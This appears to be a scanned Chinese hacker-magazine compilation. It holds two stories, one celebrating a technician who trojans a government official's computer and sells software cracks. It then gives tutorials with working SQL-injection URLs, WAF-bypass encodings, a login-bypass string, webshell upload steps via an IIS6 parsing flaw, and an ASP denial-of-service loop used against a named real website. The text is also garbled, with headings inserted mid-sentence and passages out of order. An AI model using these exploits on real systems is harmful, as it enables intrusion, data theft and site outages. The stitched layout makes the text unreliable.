难道就因为，我可以直接敲打他的心窝。  

黑夜也是生活，黑夜白天也一样过。  

不要说我是什么黑客，就因为我的黑夜比白天多……

# 黑帽生涯

史振明

马哲，很普通的一个人，生活在沿海一个开放的城市 B 市，2000年毕业后应聘到了一家电脑公司，该电脑公司的主要业务对象就是省政府相关单位。被人称为马工，是在他进入公司一个月后。马工与一般技术工程师不同的是，他不热衷于推销公司产品，而是更热衷于解决不同的技术问题。虽然公司里的工程师号称有三大金刚，但其余两大金刚都喜欢呆在公司里推销产品，既有提成，又能享受公司的空调，何乐而不为呢。就这样，顺理成章，马工出外勤服务自然要远远多于那两大金刚。上班时，他是一名勤奋工作的电脑工程师，至少表面上是；但下班后，他就成了一名天马行空的黑客。他感觉下班后的自己才是真正的自己，自己有时就像是披上了一层外壳的变色龙，抑或是电影里的特工，不同时刻有着不同的身份。

2000年12月的一天，省办公厅刘主任亲自打电话来约他上门服务，他很爽快地答应了下来。

9:30分打完上班卡，9:40分就前往省政府二楼办公厅，大门口老师傅例行公事地问他什么事要找谁，他拿出员工证一亮就闪身进去了（因为公司长期和政府机关部门合作，因此员工证比身份证还要管用）。刘主任亲切地把他带到203房，一个处长办公室，在处长面前把他吹嘘了一通。其实马工自己心里也清楚，自己毕业的是文科专业，就职时用的是假的理科文凭，但他知道，凭他现在的技术没有一个人会怀疑他的文凭有问题。

“高手就是高手”，在他花了三分钟重装打印机驱动程序后，这就是处长对他的评价。他客气了一番后回转到刘主任办公室，刘主任把他当神看待，急忙吩咐科员给他倒茶上来。他享受了一番处级待遇后，就赶回公司。11点到，是他自己的时间，这个时间距离下班还有半个小时，正是公司员工聊天吹牛侃大山的时候。他打开自己的专用维修电脑，连上公司网线，打开冰河，期待着，不到一分钟，“叮”，他的目标上线了。

在安装办公厅打印驱动程序时，他就顺便重新运行了冰河的服务端程序，现在正是收获的时刻。他慢慢地浏览着处长的电脑，把文件夹及文件名记录在纸上（因为他不会留下任何痕迹在电脑里）。

吃完中午饭，公司员工要轮流值班，他抢着值班，这让其它老员工非常感动。12:30 这个时间一般办公厅电脑不关机，办公室也没人，他连上处长电脑，开始有计划地下载目标文件，14:20 断开网络，因为 14:30 办公厅开始上班，办公室开始有人。把文件剪切到自己的移动硬盘中，再把冰河的服务端卸载掉，又把几个大文件复制过来，重写硬盘，最后又把注册表里的冰河和上网记录都清理干净，把写的东西放入切纸机切掉，所有的痕迹都清理干净。晚上在家中把文件刻成光盘，又一个战利品。

一个月后，刘主任打来电话：“马工，处长的电脑有病毒，瑞星能查到，但杀不掉，你过来帮忙看看。”坏了，可能是因为当时冰河没有加壳，被瑞星查到了，这么低级的错误都会犯，真是不应该。知错能改就是好孩子，把公司最新的瑞星拆封一套，再把冰河服务端加个壳，确保可以过瑞星，测试通过，瑞星不再报警了，而且冰河服务端也运行正常。来到处长办公室，先把旧版冰河和瑞星卸载掉，然后安装新版的瑞星以及加过壳的冰河，瑞星不再报警，然后全盘杀毒，没有病毒了。他指着电脑对刘主任说：“主要是瑞星旧版本不行，新版本就可以杀掉病毒，你还是买一套吧，反正是老客户，打个九折给你，你看行吗？”“好，好。”刘主任忙不迭地答是。

回到公司，顾经理照例询问服务情况，他把杀毒情况汇报并把瑞星销售出去报给经理。两大金刚急忙问他有没有赚到外快，他说没有，公司打九折，他按发票九折收的钱。两大金刚把他数落了一通，说他傻，没有赚到外快；他低头认错，没敢多说。

下午，省环境资源厅打电话叫他上门服务，一看是个新软件，他就两眼冒光，这是财政部推广的一个工资管理系统，要 3600 大洋，这些大洋其实就是购买一个注册码。他帮环境资源厅安装好后，把这个软件悄悄地拷到了自己的移动硬盘中。这一天其余的时间他心里就像有个耗子在爬来爬去，一直等到下班，马上冲回家。

先调出 PEID 检测，太好了，程序没有加壳，是 PowerBuilder 7 编写的。试着安装，要注册码，没关系，他调出 OllyDbg，轻车熟路地进行调试。不对啊，花了四五个小时，还是没有任何头绪。他停了下来，到看雪论坛上转了转，哦，找到了 PB 的反汇编程序 dade，反汇编，出来了，还是源码。虽然没学过 PB，但对于有着强大的程序开发背景以及破解经历的他，还是很快就找到了注册算法的代码块。剩下的工作就简单多了。

使用 DELPHI 照着 PB 的源码再写一道算法，在开发注册机时他喜欢使用 DELPHI，因为 VC 功能虽然强大，但对数据格式要求太高，而 DELPHI 只要程序员关注算法本身，对数据处理相对灵活，是制作注册机的不二候选。

打开自己的个人主页，上传到加密主页中，把相关说明介绍又添加到自己的主页上，现在就等着客户来和他联系购买这个软件吧！这样的软件不多，不能是明码比较，得要求是一机一个码，这才具有商业价值。不一会儿，QQ 就传来信息，一个客户要求购买，他下载后，根据他的机器码，算出了注册码，再传给他，他转账；交易完结。该客户还想再购买一个办公系统，指定要 JSP 源码。下一个目标又在哪里……？

# 黑色记事本

古木

时间已近深夜，但屋檐上流下的雨水却猛拍着地面，哗啦哗啦的声音即使在关了门的小吃店里也听得格外清晰。南方的天气总是这般地变幻莫测，我出来的时候还是漫天星斗，可转眼间便滂沱如注了。我向店主借了把雨伞，就冲了出去。江南小镇，在下雨的夜里会变得异常宁静，偶尔几声飘渺的狗叫也给这小镇增添了几分神秘。我沿着墙壁借着打火机发出的微弱亮光，踩过雨水泛滥的青石板，向深## 侠隐仙踪

巷中走去。雨太大，砸在伞上变成了粉末，随着刮起的大风到处飞扬，我感觉到了丝丝的凉意，摸了一下衣服，已经缀满了水珠。正应了店主刚才说的话：“你这样出去非湿透不可，就住在我这儿吧！”可我还是撑着性子冲了出去，因为我有种不祥的预感。

终于来到了住处，身上已经没有一处地方是干的了，我不停地打着颤，不知道什么时候我的身体已变得如此不堪一击。我熟练地打开电脑，找到了加密的记事本，然后匆忙地解密打开，可恨的是里面的内容依然没有变，我的大脑里顿时一片空白，不知所措。婷姐已经消失十多天了，她让我惴惴不安。对一般人而言，十天半月没有音信可能并没有什么，但婷姐不一样，因为我们之间有个约定——必须在凌晨两点以前在加密的记事本里留言。我双手放在键盘上，可手指却一直搁浅着，难以动弹。憋了许久，才留下几个字：“姐，我的电脑一直开着，如果你远程登录了，一定要给我留言，因为你让我担心。”光标在闪动，心里汹涌着千言万语，却再也写不出一个字。

我躺在有点发硬的弹簧床上，思绪万千。婷姐并非我的亲姐，彼此也没见过面，但我们的关系却胜比血缘，我想这就是缘分吧。

一年前，我经常看玄幻小说，经常撑到凌晨四点才拖着疲倦的双眼踉踉跄跄地爬上床。有一个夜晚，我正津津有味地浏览着从网上down下来的新作，半刻钟，我就完全陷入了作者精心构造的情节之中。时间悄悄地从键盘上流逝着，当看到主角暴走的字段时，我握着鼠标的手渗出了丝丝热汗，正当这个生死关头，电脑桌面上却突然冒出了一个消息框：里面赫然写着：“都几点了，还在看小说，借你写的日记看看！”直觉告诉我，我的电脑已变成别人的肉鸡了。

我查看了一下系统进程，并没有什么异常。被黑就黑吧，大不了重装系统，不管那么多了，先把小说看完。于是我就在消息框里回复道：“大侠走好，渴了的话先在我这儿喝碗孟婆泉水。对了，整天往别人的电脑里跑可不是好孩子哦！”我相信这几句“恭维”非让对方吐血三丈，胸闷而亡。回复完后我又投入到了主角的战斗中，可兴致却一下子没有了，翻看了几页，总觉得心里憋得慌。如果对方狠下毒手，把我电脑的CPU或者主板上的CMOS、电容什么的给我弄烧了怎么办？于是我从虚拟的小说中回到了现实，彻底地研究了一下系统，发现只开启了远程终端，其他的就没有任何蛛丝马迹了。

我感叹此黑客手段的高明，非等闲之辈，但他却有偷窥的恶习。我虽然沉迷于小说，但也并非不学无术，常在某个夜黑风高的夜晚出入于那些漏洞百出的电脑，深知被蹂躏、践踏的悲哀。我施展浑身的解数，但终究还是查不出存在的漏洞，既然无计可施，那就只好听天由命了。不过他要看我的日记，那就要凭他的功力了，破解我那一百多字节的密码可不是轻而易举的事。把端口关闭了，再仔细地查看系统进程，没发现什么可疑的情况。电脑一关，偷笑着那个黑客此时应该正大汗淋漓地破解我的日记吧。回到床上，刚脱完衣服，电脑居然自动启动了！我瞠目结舌，四肢酥软，第一次体会到了无助的悲痛。屏幕上有一行字正在滚动播放着：“小弟，以后你就跟姐姐混了。日记我已看完，今宵完璧归赵，不过我在里面写了几行字，不要介意——雨婷。”我赶紧双击打开她嵌在桌面上的日记，竟然不用输入密码就打开了！

扉页上赫然有红字无数：小弟，我已经认真地看完了你的日记，没想到我们一样都是孤儿，你的辛酸我也曾体验过，所以在看你的日记时，我哭了，一直哭着看完，从来没有这样毫无忌惮地哭过。虽然我们的童年都记录在孤儿院的院子里和墙头上，但是我们也同样成长在这个蔚蓝的天空下，呼吸着清新的空气，还有那么多的好人帮助过我们。对了，你喜欢一个叫红叶的女孩吧，喜欢就去追啊，别磨蹭了，姐姐支持你！以后就用我放在F盘里的记事本联系吧，记住密码*******

迟疑了很久，最终我还是使用她提供的密码打开了F盘里的记事本。尽管被逼着做了她的弟弟，可我却一直警惕着自己被人愚弄，毕竟“防人之心不可无”。自那以后我们就一直使用加密的记事本保持着通信，久而久之，我的戒备心也就荡然无存了。

对我而言，物质上几乎什么都不缺，但我却从来不知道什么是亲情。从婷姐那里，我体验到了别人常说的、又比较陌生的亲情，无私的关爱，谆谆的告诫，这些感情在她的留言中一览无余。直到半年后，我才知道她以前曾是一个职业黑客，专门受聘于各大网络公司，现在已经退出了这个圈子。不过她却始终难改喜欢入侵的癖好，并且尤爱偷窥别人加密的东西。我曾问过她何时有的这样的怪癖，她回复说：“呵呵，不知道咧。”婷姐是地地道道的南方人，说话带着深厚的口音，这让我很惊喜。就在这个记事本里，我们无所不谈，童年的辛酸，成长的坎坷，如今的困惑，我几乎倾囊抖出，因为我觉得没必要隐藏我的那些事了。

婷姐当初知道我喜欢一个名叫“红叶”的女孩，是因为她看到我日记里赫然写着：“今昔又一年，月没悄无声。思情系何物？红叶最伤身。”现在她也时常“朝花夕拾”，旧事重提，问我关于那个女孩的一些琐事，我总是回复她：“呵呵，不知道咧。”她一怒，就说道：“你就不能换个花样吗？”被逼无奈，我只好迟疑地写道：“她是我的梦，飘渺的梦。”她马上回复了两个字：“放屁！”婷姐就是这么一个人，不拘小节，但却心细如针。有时候我甚至认为，倘若某天她突然消失了，我会很悲伤，会活不下去，这对我是多么可怕的事呀。我把自己的想法告诉了她，但她斩钉截铁地说道：“我不会离开你的，永远也不会。”

我们生活在不同的城市，心却如此贴近。在她的指导下，我的技术飞速地提升着，并且也终于弄明白了她是如何对我们交谈的记事本加密的。那是一个变异的算法，如果使用计算机暴力破解的话，估计要用两百年时间。如此谨慎的方式让我浮想联翩，于是就问她。她答道：“哈哈哈，怕警察叔叔找你麻烦啊。”我心里一阵暖意，狂喜不已，忙不迭地回答她：“婷姐对我的好，我会永远铭记的。”“小木木很懂事哦！”“婷，不能这么叫我的！”“耶？小木木生气啦？”“晕！”

过去的事情犹如影片般在我脑海里播放着，那鲜活的场景如今却让我心痛如割。我原以为我们会这样“安逸”地过下去，可是那放在桌上的令人揪心的电脑，却为什么不自启动？为什么不突然闪出一行文字？即使是一个简短的“弟弟”也好？我躺在床上，辗转反侧。

婷姐已经消失十多天了，对我来说这是炼狱，是磨难，我开始急躁，我开始思考如何以释放病毒的方式来搜索她那个网段的信息。

# 陡险仙踪

……卧了一天后，我顺着自己的思路编写出了在任何网络形式下都可以传播的病毒。病毒发作不久，婷婷那个网段的信息就源源不断地传送到了我的电脑中，我什么也不做地分析了两天后，有用的信息接近于无。我几近崩溃，都半月过去了，还是杳无音信。等待已经没有必要，我查到了婷婷当初使用次数最多的IP，于是毫不犹豫，马不停蹄地去了那个城市。询问那个小区里的很多人，还是一无所获，人们都摇头说“邻里间很少来往，即使住在对面，也不知道对方姓什么，叫什么。”……

“半个月前，我们小区好像有一个姑娘犯病了，进了医院，现在还没有回来呢！”……“对了，我也记起来了，救护车走后的第二天，几个便衣警察就冲进了杨初的房间，杨初是个好姑娘，怎么会惹上警察呢？”……

我听了，嘴里念叨着：“杨初（阳出），婷婷（同停），杨初”。幡然醒悟，不由惊了一身汗，紧张地问道：“她去哪个医院了？是哪个医院？”“市二院，喏，前面。”……

我跑到医院，脸色木然的女医生不耐烦地说她去了L市，是癌症晚期！我当时就被吓懵了，什么？癌症晚期？去了L市？医生麻木地点头。L市就是我住的地方。

我站在病房前，双手却不敢去推开那扇门，里面与病魔抗衡的不是别人，正是我的婷婷，一个给我爱、给我无限安慰的好姐姐。我的眼睛不争气地湿润了，泪水夺眶而出，难以抑制，身子顺着墙壁酥软地滑下，抽泣。到处流浪的我，……

即使受再大的挫折、困顿、灾难，我也从来没有流过一滴眼泪，可此时……我紧咬着拳头，不让自己发出声音。

“进去吧，现在还来得及。”一个老警察拍了拍我的肩膀。我悲痛地站起身来，看了一眼满脸同情的警察，然后轻轻地推门进去。

婷婷睡着了，我怕惊醒她，就找了个板凳在她的床头边坐下。我第一次见到她憔悴但美丽的面容，心情很复杂。姐姐如此年轻，脚步却又如此匆匆，“姐，你真狠心。”我抚摩着她露在床外的手，很单薄，但我却明明感觉到了有如亲人的血液在流淌，潜移默化，悄无声息。我拂了一下她额前凌乱的头发，认真而轻柔，听着她平缓的呼吸，我不敢去想下一刻会发生什么。

好一会儿，她慢慢地睁开了惺忪的眼睛。“姐，我来看你了。”我的泪水又夺眶而出了。

“啊，小木啊，你怎么找……对不起，姐害苦你了，姐对不起你。”婷婷摸了摸我的脸，动作艰难，“别哭，姐姐不是好好的吗？”

我擦了擦面颊，“姐，你不要起来，先躺着。”我一边扶着她，一边给她移枕头。

姐姐很是欣慰，她的眼睛有晶莹在闪动，“姐姐以后没时间陪你了，你要……”

“姐，你会好起来的，会好起来的。”我说着，心无以言状地痛。

姐姐笑了笑，“刚才我在梦里还见到你了呢。”

“是吗？你能辨认出那就是我，会不会错尾为马哦？”我倒了一杯水，送到她嘴边。

婷婷嘴角掠过几丝笑意，“轮廓是有点儿模糊，不过我确定。”她抿了几口水，接着又说道，“小木，今晚陪陪我，好吗？”

“嗯，我不会走的。”

夜幕将至，风开始乱刮，雨也滴答地敲打着芭蕉叶，而病房里依然显得很安静。婷姐突然让我扶她起来，她说喜欢看水滴从叶片坠落的那一刹那。我怕她着凉，就给她裹了一层棉被，然后扶着她坐到窗前，她幽幽地说道：“把窗子打开吧。”我照做了。

“你看，它们多可爱啊。”

“嗯，一滴比一滴晶莹漂亮。”

“不过有点儿可惜，它们就要破碎了。”姐姐显然伤感了起来。

“它们会留在我们的记忆里，一直陪着我们，永远。”

“小木，姐姐没有什么东西送给你，桌子上那个笔记本是我唯一可以留下来的东西。还有就是我好想见一下你心中的她，那个名叫红叶的女孩。”

“嗯，我给你看。”我从怀里拿出了她的相片——那是她两年前的相片，如今她早已不在人世。

婷姐端详了好久才说道：“你和她很般配，好好珍惜。”

“嗯，是啊，我们很般配。”

“她的眼睛真大，真漂亮，像水一样剔透。”

“嗯。”

“以后带她来见我吧。”

“好。”

“我们一起唱首歌吧。”

“唱什么？”

“世上只有妈妈好。”

“嗯。”

“…………”

“…………”

晚上九点，婷姐说她冷，我给她加了一床棉被，可她还是说冷，我只有脱掉外衣给她盖上。她突然说道：“弟，让姐姐抱抱你吧。”我把头贴在她的胸前，她抚摩着我的头发，柔和而缓慢。我忽然感觉到有冰凉的东西从我的脸颊流过，是婷姐的眼泪。渐渐地，她的动作越来越慢，“姐姐要走了，姐姐很累了。”我听着她呢喃的声音，胸口开始发闷，泪水止不住地流了下来。我的双手不自然地抱紧她，口里念叨着：“姐，不要走，不能留下我一个人，不要走。”可是她没有回答。风拍打着没有关好的窗户，一下一下，我知道姐姐已经乘风归去了。我呆呆地对着那阵风喊道：“姐姐一路顺风啊！”

姐姐走后，我在她的电脑里发现了她加密的日记，才明白婷姐以前一直是云南公安总部的卧底警察，专门窃取贩毒分子秘密活动的情报。当初当地便衣警察冲进婷姐的房间仅仅是一个误会，而和我聊天的记事本加密的原因只是她怕有一天会遭黑道的毒手而连累我。她忍着病痛执意要来L市，是因为她想看看我成长的地方，同时也遵守了永远不会离开我的承诺。我看着她写的日记，泪如雨下。

婷姐安葬的那天，来了很多警察，但其他人却几乎没有。老警察和他的部下整整地站在姐姐的坟前，然后脱下军帽，庄严地敬了一个军礼。

“姐，你看，她就在你身边，这样你们就不会寂寞了。”

“她不会寂寞。”老警察拍拍我的肩膀。

“是。不会寂寞。”

蔚蓝的天空下，两座坟墓架起了天使之翼，为我祈福。

## Xxasp网络硬盘v3.3.2 注入漏洞简单利用

txchg


Xxasp是一款基于ASP语言的网络硬盘程序，官方对它的介绍是：大量使用类封装，是一个高速、高效、简洁、安全、支持多组件的上传与提取系统。但真正的安全不是靠说出来的，最近我就在一个安全论坛看到有人爆出了Xxasp网络硬盘v3.3.2版存在的一个SQL注入漏洞，可以轻松地拿到webshell。


图2

存在注入漏洞的文件是Xxasp网络硬盘v3.3.2根目录下的MyFiles.asp和ShareList.asp，关于漏洞的详细介绍大家可以到网上查找一下。我主要介绍如何利用该漏洞得到webshell。从网上找到存在漏洞的Xxasp网络硬盘v3.3.2的源程序，下载回来后在虚拟机的Windows 2003系统的IIS环境下把程序安装好，访问地址为http://127.0.0.1/，其界面如图1所示。


图3

要想利用这个漏洞需要有一个用户账号才行（普通会员就可以），因为至少需要普通会员级别的用户登录后才能利用这个漏洞。我们可以使用系统默认提供的测试用户guest（密码也是guest），也可以新注册一个用户，具体选择哪个，就随便你了。我使用的是guest用户，在网站首页先使用guest用户登录，然后在首页地址“http://127.0.0.1/”的后面添加上：

> ShareList.asp?Action=Main&SearchType=SearchFileType&SearchCondition=ar'%20and%20'1=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,AdminName,AdminPwd,14,15,16,17%20from%20TW_Admin%20where%20'1'='1

进行提交，结果如图2所示。爆出了后台管理员的用户名和密码，我们把经过md5加密的密码拿到md5在线破解网站，发现密码是admin。Xxasp网络硬盘v3.3.2的默认后台登录地址是http://127.0.0.1/admin/Admin_Login.asp，使用得到的用户名和密码成功地进入了后台，如图3。

接下来就是想办法得到webshell了，本来我想在允许上传的文件中添加.cer格式，但添加后在上传.cer后缀的一句话木马时却还是提示“抱歉，您上传的文件类型不正确”，后来还是使用漏洞公布者提供的方法得到了webshell。我们在后台点“系统设置”下的“系统基本设置”，然后在“上传文件设置”中把……

# 一个人的战争


图5


图6


图7

文件保存路径由原来的“UpLoadFiles/”改为“Up-LoadFiles.asp/”，也就是利用IIS6.0的路径解析漏洞，如图4。点击“保存设置”按钮使更改生效，使用guest用户在“文件上传”处上传一个把后缀更改成jpg的asp一句话木马，这里就是123.jpg，如图5。

文件成功上传了，但我们怎样找到上传文件的名字呢？在后台的“文件管理”菜单下点击“上传文件管理器”，就可以看到上传的文件了。通过上传文件的原文件名可以很容易找到刚才我们上传的文件，在文件缩略图上点击右键，选择“属性”，在“地址”处成功看到了上传文件的具体访问地址“http://127.0.0.1/UpLoadFiles.asp/guest/2009/12_5_155051/Xxasp_123.jpg”，如图6。使用一句话木马的客户端连接“http://127.0.0.1/UpLoadFiles.asp/guest/2009/12_5_155051/Xxasp_123.jpg”，就成功得到了webshell，如图7。

要想成功利用这个漏洞，除了必须是Xxasp网络硬盘v3.3.2版本外，管理员密码也要能破解出来，另外就是网站服务器使用的是Windows 2003系统。不过话又说回来，网络上还在使用Windows 2000系统的服务器几乎已经绝迹了，支持asp的服务器基本上全是Windows 2003系统。

我们使用类似“XxaspDisk V3.3.2”等关键字就可以在Google、百度中找到可能存在这种漏洞的网站。还是那句老话：练手可以，但请不要破坏。另外，为了方便在本机测试这个漏洞，我把存在漏洞的Xxasp网络硬盘v3.3.2的源代码也一起打包提供给大家了。

> （文章中涉及到的Xxasp网络硬盘v3.3.2的源代码已经收录在了光盘中）


## 干掉害它防火墙 入侵中国网络征途

自从上次在黑客X档案杂志上发表了我的“处男作”之后，我就一直在筹划着第二篇。这回我选择的目标是中国网络在线，看网站名称和首页都挺大气的，毕竟是专业网站呀，但收费也很高，连个普通网页制作（才10页）外加100M空间就要收这么多钱，也太狠了点吧，如图1，我们来看看他到底有多强。

这个网站程序是使用ASP脚本编写的，提起ASP，各位又都来了精神吧？不错，我们先来检测一下注入漏洞，翻开我的黑客工具包，拿出明小子（啊D有时候会被弱智的防注入程序拦截），经过一番检测，终于找到了注入点，如图2。马上使用明小子来检测表段，咦？怎么一个也检测不出来，如图3。唉，大网站就是大网站（其实，这个网站的安全性一点儿都不专业，如果我从一开始就没有对大网站的严重心理，那么入侵将会比我想象的快得多），连表段都做了防御，难不成这个注入点是伪造的？

看来只能手工检测了，我再次打开了主站，就在这时，一个防火墙拦截的页面跑了出来，提醒我“URL、COOKIES与FORM中可能包含特殊SQL语句”，怪不得明小子检测不出来，原来是被防火墙给拦截了，如图4。防火墙是针对IP拦截的，我立刻套了个代理，使用的是黑X推荐的CProxy，感觉这个速度比较快。

大家有没有注意到，在刚才的防火墙提示拦截页面中，有个技术人员信息，上面写着系统会根据blocksql.txt中的内容进行拦截。那么，我们加大小写再转成16进制是不是就可以跳过了呢？答案是否定的，于是很不幸，我又被拦截了。重新更换代理（看来那些做代理服务器的好倒霉啊），再次打开，进行手工注入。看地址应该是数字型的，不需要闭合引号，这就容易多了，因为防火墙很可能针对引号进行了屏蔽。

```sql
s'%45l%45cT * fRoM admin where id='admin'
```

提交后返回了错误的结果，说明没有ADMIN这个表名（后来对数据库进行研究也证实了这个注入方法是正确的），看看时间，已经十二点多了，喝了点水，就去睡觉了。


图1


图4


图2

第二天一早起来，就跳出了一个新的想法，既然这个网站这么简单就可以注入，那么在后台是不是存在弱口令或者引号合并漏洞呢？看来人品又爆发了，后台地址竟然就是“admin/”，在用户名和密码处都填写为`or'='or'`进行引号合并，如图5，居然就这么简单地登录进去了，如图6。


图5


图3

`http://www.odot.cn/news2.asp?id=95`

后台的功能比较简单，上传我也测试过了，不能上传ASP、ASA、CER类型文件。在后台里翻着，突然发现了一个编辑器，原来是eWebEditor。各位熟悉ASP的叉子还记得EW的漏洞吗？没错，EW的上传接口没有进行认证。我拿出尘封了好久的利用工具，找了个小勇小马传了上去（小勇的小马只有4K，大马几乎都是100K以上，而EW的限制是100K，所以只能使用小马上传了），结果又被拦截了。我打开工具一看，天啊，在工具中赫然出现了union和select，如图7。再傻X的防火墙也应该知道这两个是注入啊，我马上对它们进行大小写、16进制混合。

编码：把 `union` 改成 `UnIOn`，把 `select` 改成 `S%451%45Ct`（经测试这两个改成这样是没有问题的），重新进行上传，这回成功了！


IP地址居然是厦门市的 ADSL，如图10。相信大家看到这个结果后，绝对不敢再把自己的网站托付给这样的公司吧。在此我再插一句，希望大家在黑完站点后可以把数据库的表名、字段名都添加进去，为以后的进入提供更高的成功率。

```html
</TT><br>...type=IMAGE&style=firefox%20union%20select%20S_ID,S_Name...
```

继续尝试提权，但是服务器的安全做得还算可以（也不能说是好，更应该说成功是够侥幸吧，没有安装 MSSQL 和 SERV-U，又打了些额外安全包），于是我放弃了。虽然说我们此时的权限并不大，但是改改首页、制造空间被封（这个大家会在下文中找到）、恶搞一下还是可以的。下面我就告诉大家如何整治一下这种爱装的站长，先使用木马在可写目录下建立一个 ASP 文件，内容如下：


打开小马，熟悉的登录界面出来了，如图8，输入密码，登录成功了。打开心动吧 ASP 大马，把源代码粘贴到代码框中，至于保存的路径（就是那个 PATH）就在主站下建立一个 `hello.asp` 吧。填写完保存的路径、源代码，上传成功，在浏览器中访问 `odot.cn/hello.asp`，却提示找不到文件……我在工具包里翻了半天，总算找出了个暗组的免杀 ASP 大马，重新上传，再次打开上传的 `hi.asp`，如图9。对于暗组的这个木马我们不能直接打开，需要 `d=darkst` 的 GET 参数才能运行。

```asp
<%
Server.ScriptTimeOut=2147483647.499999880
i=1
while i<>0
  i=0
  i=i+1
wend
%>
<iframe src="<%=Myself%>"></iframe>
<iframe src="<%=Myself%>"></iframe>
<iframe src="<%=Myself%>"></iframe>
<iframe src="<%=Myself%>"></iframe>
<iframe src="<%=Myself%>"></iframe>
```

“哇！这也太狠了吧！”是的，这样无限循环 + IFRAME 重复提交的程序，找个网速正常的环境，打开这个页面后不到10分钟，估计这个站点就会被 IIS 限制了（因为 CPU 占用率超标了）。我在和这个站点玩的时候就是使用了这个方法，大约7分钟后网站就挂了。文章最后，我要提醒各位小菜，不要只看效率，黑客技术是一门技术，黑站只是为了提高自己的技术；效率并不重要。希望大家都能对那些黑不下来的站点不抛弃、不放弃，坚持提高成功率。


打开大马后，发现这是一个虚拟空间（我真的好汗颜啊，看起来这么大的一个公司，居然还在使用虚拟空间），查了查 IP 地址……

> （文章中涉及到的明小子注入工具已经收录在了光盘中）

## 天天供求信息网站管理系统漏洞快速拿 WebShell

txcbg


一天 QQ 上的好友发给我一个动画，说他有点儿看不懂，动画描述的是利用天天供求信息网站管理系统漏洞拿 WebShell 的过程。由于我以前没有听说过这个漏洞，于是就在虚拟机里按照动画所示……